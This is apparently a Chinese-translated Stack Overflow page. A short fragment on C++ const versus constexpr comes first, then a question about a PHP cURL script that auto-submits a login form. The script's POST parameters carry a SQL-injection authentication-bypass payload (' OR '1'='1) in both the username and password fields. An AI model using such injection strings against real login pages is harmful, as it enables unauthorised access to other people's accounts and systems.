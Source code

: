 首先，两者都是 c++ 中的限定符。声明为 const 的变量必须初始化并且以后不能更改。因此，通常声明为 const 的变量甚至在编译之前就会有一个值。

但是，对于 constexpr 它有点不同。

对于 constexpr，您可以给出一个可以在程序编译期间计算的表达式。

显然，声明为 constexper 的变量以后不能像 const 一样更改。

# php - Webbot 通过 php cURL 自动提交表单

> ID：14116023
> 
> 赞同：0
> 
> 时间：2013-01-02T01:46:08.403
> 
> 标签：php, curl, web-crawler, bots

我只是想通过 php 和 cURL 自动登录到登录表单

我有：

```
<?php
# get url to form
$url = "http://thesite.com/login.php";
$ch = curl_init($url); # initialize that form

#run value of $_POST variable in form fields from above url.
$params = "username='' OR '1'='1&password='' OR '1'='1&login-php-submit-button=submit";

## set cURL options
curl_setopt($ch, CURLOPT_POST, 1);  
curl_setopt($ch, CURLOPT_POSTFIELDS, $params);  #set parameter $_POST fields
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true); 
$response = curl_exec($ch);

    if (!$response) {
        $http_code = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        curl_close($ch); // make sure we closeany current curl sessions
        die(stripslashes($http_code.' Can\'t connect to server.'));
    }

//curl_close($ch); // close curl session 

## echo the result from cURL 'ing
echo $response;

curl_close($ch);
?> 
```

当我访问此脚本时，它只显示`$url`我刚刚访问 URL 的值，它不显示任何错误消息，如“错误传递”或任何内容。
